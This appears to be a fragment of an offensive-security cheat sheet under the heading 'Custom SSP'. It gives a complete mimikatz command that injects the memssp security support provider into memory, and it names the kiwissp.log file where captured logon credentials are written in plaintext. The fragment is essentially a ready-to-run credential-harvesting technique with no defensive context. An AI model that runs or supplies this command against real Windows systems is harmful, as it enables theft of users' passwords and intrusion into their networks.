 # Custom SSP

 - mimikatz "privilege::debug" "misc::memssp" "exit"

 - C:\Windows\System32\kiwissp.log
